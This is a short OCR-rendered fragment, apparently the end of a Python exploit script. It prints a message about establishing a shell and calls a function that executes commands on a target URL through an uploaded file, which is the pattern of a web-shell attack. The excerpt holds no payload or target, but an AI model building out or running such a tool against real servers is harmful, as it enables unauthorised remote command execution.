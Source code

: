# "while" loop to execute commands in a fake\-shell
print\(c\.BLUE \+ "\[" \+ c\.YELLOW \+ "\*" \+ c\.BLUE \+ "\] Trying to establish a shell\.\.\." \+ c\.END\)
time\.sleep\(0\.4\)
execute\_commands\(url, uploaded\_name\)

if \_\_name\_\_ == "\_\_main\_\_":

# Program starts here
try:
main\(\)
except KeyboardInterrupt:
print\(c\.BLUE \+ "\\n\\nInterrupt handler received, exiting\.\.\." \+ c\.END\)
sys\.exit\(0\)
